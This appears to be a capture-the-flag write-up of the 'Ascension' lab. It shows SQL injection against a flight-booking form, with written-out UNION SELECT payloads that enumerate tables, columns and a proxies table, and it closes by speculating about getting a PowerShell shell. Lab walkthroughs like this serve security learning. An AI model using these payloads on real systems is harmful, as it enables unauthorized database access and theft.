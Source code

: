 # ✈️ Ascension

<figure><img src="../../.gitbook/assets/image (967).png" alt=""><figcaption></figcaption></figure>

We first discover a web page on port 80:

<figure><img src="../../.gitbook/assets/image (968).png" alt=""><figcaption></figcaption></figure>

We discover some possible users:

<figure><img src="../../.gitbook/assets/image (969).png" alt=""><figcaption></figcaption></figure>

```
-Nikolai Belinski
-Tank Dempsey
-Edward Richtofen
-Takeo Masaki
-Fanny Spencer
```

On the "book flight" page we quickly discover the following input that seems vulnerable to SQLi:

<figure><img src="../../.gitbook/assets/image (970).png" alt=""><figcaption></figcaption></figure>

We are able to trigger the following error with a simple **'OR 1=1-- -**

<figure><img src="../../.gitbook/assets/image (971).png" alt=""><figcaption></figcaption></figure>

So maybe we can retrieve some information this way. We follow the path of the SQLI and try to use UNION&#x20;

```
' UNION SELECT NULL,NULL,NULL,NULL,NULL-- -
```

<figure><img src="../../.gitbook/assets/image (972).png" alt=""><figcaption></figcaption></figure>

With the following payload, we are able to retrieve the table names:

```
' UNION SELECT NULL,table_name,NULL,NULL,NULL FROM information_schema.tables--
```

<figure><img src="../../.gitbook/assets/image (973).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT NULL,column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='proxies'--
```

So we found the column names for proxies:

<figure><img src="../../.gitbook/assets/image (974).png" alt=""><figcaption></figcaption></figure>

```
' UNION SELECT proxy_id,proxy_name,subsystem_name,NULL,NULL FROM proxies--
```

<figure><img src="../../.gitbook/assets/image (975).png" alt=""><figcaption></figcaption></figure>

So could this mean that a user called svc\_dev can run a cmd and PowerShell? From this information, we could imagine that we need to obtain a shell by executing a PowerShell script via an SQL request?
